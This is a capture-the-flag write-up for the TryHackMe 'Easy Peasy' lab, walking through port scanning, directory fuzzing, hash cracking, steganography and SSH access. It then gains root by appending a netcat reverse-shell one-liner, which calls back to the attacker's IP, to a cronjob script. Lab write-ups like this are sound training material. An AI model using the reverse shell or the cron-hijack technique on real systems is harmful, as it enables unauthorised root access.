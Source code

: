 ```yaml
---
{"dg-publish":true,"permalink":"/write-ups/try-hack-me/easy-peasy/","tags":["CTF","write-up"]}
---
```



![Pasted image 20241129204817.png|400](/img/user/attachments/Pasted%20image%2020241129204817.png)

---
> [!INFO] Info about Easy Peasy
>  Practice using tools such as Nmap and GoBuster to locate a hidden directory to get initial access to a vulnerable machine. Then escalate your privileges through a vulnerable cronjob.

> [!FAQ]- Hints
> GOST Hash john --wordlist=easypeasy.txt --format=gost hash (optional* Delete duplicated lines,Compare easypeasy.txt to rockyou.txt and delete same words)

---
# Active reconnaissance
## Host discovery
## Port scan
Executing a fast general scan to all ports.
```shell
sudo nmap TARGET_IP -n -p- -sS -Pn -vvv --open --min-rate 5000 -oN nmap_scan
```

```c
PORT      STATE SERVICE REASON
80/tcp    open  http    syn-ack ttl 61
6498/tcp  open  unknown syn-ack ttl 61
65524/tcp open  unknown syn-ack ttl 61
```

> [!check]- How many ports are open?
> 3

---
# Enumeration
Executing a deep scan with common scripts only to ports that we are interested.
```shell
sudo nmap TARGET_IP -sCV -p 22,80 -oN nmap_enum
```

Add the IP to  `/etc/hosts`
```shell
sudo echo "10.10.21.145 easypeasy.thm" | sudo tee -a /etc/hosts
```
## OS
Linux, ubuntu
## Port 6498 - SSH
6498/tcp  open  ssh     **OpenSSH 7.6p1** Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
## Port 80 - Nginx
80/tcp    open  http    nginx **1.16.1**
http-server-header: nginx/1.16.1
http-title: Welcome to nginx!
http-robots.txt: 1 disallowed entry
/
![Pasted image 20241129210033.png](/img/user/attachments/Pasted%20image%2020241129210033.png)

> [!check]- What is the version of nginx?
> 1.16.1
## Port 65524 - Apache
65524/tcp open  http    **Apache** httpd **2.4.43** ((Ubuntu))
http-server-header: Apache/2.4.43 (Ubuntu)
http-title: Apache2 Debian Default Page: It works
http-robots.txt: 1 disallowed entry
`/`
![Pasted image 20241129210053.png](/img/user/attachments/Pasted%20image%2020241129210053.png)

> [!check]- What is running on the highest port?
> Apache

---
# Exploitation
## Port 80 - Nginx
Fuzzing
```shell
ffuf -c -t 100 -u http://easypeasy.thm/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -mc all -fc 404
```
![Pasted image 20241129221246.png](/img/user/attachments/Pasted%20image%2020241129221246.png)
### hidden
![Pasted image 20241129221726.png](/img/user/attachments/Pasted%20image%2020241129221726.png)
Fuzzing under hidden
![Pasted image 20241129221411.png](/img/user/attachments/Pasted%20image%2020241129221411.png)
#### whatever
![Pasted image 20241129221743.png](/img/user/attachments/Pasted%20image%2020241129221743.png)
![Pasted image 20241129221854.png](/img/user/attachments/Pasted%20image%2020241129221854.png)
Decode it
```shell
echo "ZmxhZ********RnfQ==" | base64 -d
```

> [!check] Using GoBuster, find flag 1.
> ![Pasted image 20241129222024.png](/img/user/attachments/Pasted%20image%2020241129222024.png)
## Port 65524 - Apache
Analyze the HTML code searching the word *flag*
```shell
curl http://easypeasy.thm:65524/ | grep -i flag
```

> [!check] Crack the hash with easypeasy.txt, What is the flag 3?
> ![Pasted image 20241129212541.png](/img/user/attachments/Pasted%20image%2020241129212541.png)

I found a base62 code
![Pasted image 20241129212832.png](/img/user/attachments/Pasted%20image%2020241129212832.png)
Analisyng with cyberchef
> [!check] What is the hidden directory?
> ![Pasted image 20241130073556.png|500](/img/user/attachments/Pasted%20image%2020241130073556.png)
### robots
![Pasted image 20241129214357.png](/img/user/attachments/Pasted%20image%2020241129214357.png)
It's a MD5 hash
![Pasted image 20241129214717.png](/img/user/attachments/Pasted%20image%2020241129214717.png)
After an extent research I found the answer.
> [!check] Further enumerate the machine, what is flag 2?
> ![Pasted image 20241202084238.png](/img/user/attachments/Pasted%20image%2020241202084238.png)
### n0th...... subdir
![Pasted image 20241202085105.png](/img/user/attachments/Pasted%20image%2020241202085105.png)
Check the source code and I found one more hash
![Pasted image 20241130074429.png|500](/img/user/attachments/Pasted%20image%2020241130074429.png)
Save it in a hash named *hash_easy2*
And crack with john the ripper using the dictionary provides by the room
```shell
john --wordlist=/home/ge0/Downloads/easypeasy_1596838725703.txt hash_easy2
```

> [!check] Using the wordlist that provided to you in this task crack the hash. what is the password?
> ![Pasted image 20241130074348.png](/img/user/attachments/Pasted%20image%2020241130074348.png)
#### Steganography
The binary pic is the only one which is stored on the server, let's check hide metadata
![Pasted image 20241202085318.png](/img/user/attachments/Pasted%20image%2020241202085318.png)
Download

Check with steghide and with the password found before, and a file is hidden.
![Pasted image 20241202085739.png](/img/user/attachments/Pasted%20image%2020241202085739.png)
We  found the credentials
![Pasted image 20241202090204.png](/img/user/attachments/Pasted%20image%2020241202090204.png)
Use Cyber chef and decode this code click on the stick and get the password.
![Pasted image 20241202090054.png](/img/user/attachments/Pasted%20image%2020241202090054.png)
Login via SSH with the credentials and get the user flag
> [!check] User flag
> ![Pasted image 20241202090700.png](/img/user/attachments/Pasted%20image%2020241202090700.png)
> ![Pasted image 20241202103853.png](/img/user/attachments/Pasted%20image%2020241202103853.png)
> That is not the flag yet, some part of text is reversed

---
# Privilege escalation
## Cron jobs
Check the files into the web server folders. I  found a `.sh` script, based on the name, related with some cronjob.
![Pasted image 20241202114525.png](/img/user/attachments/Pasted%20image%2020241202114525.png)
Check the cronjobs, there is a cronjob that runs every minute and actually executes the script from above.
![Pasted image 20241202114722.png](/img/user/attachments/Pasted%20image%2020241202114722.png)
Now we have some ways to exploit this, I gonna send me a reverse shell like root.
But first set a listener on our machine
```shell
rlwrap nc -nlvp 4747
```
I need to change the script content. Adding this line at the final of script
```shell
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.6.2.59 4747 >/tmp/f" >> /var/www/.mysecretcronjob.sh
```
Just wait a minute and we will receive the shell as root
![Pasted image 20241202115640.png](/img/user/attachments/Pasted%20image%2020241202115640.png)

> [!check] Root flag
> ![Pasted image 20241202115829.png](/img/user/attachments/Pasted%20image%2020241202115829.png)

---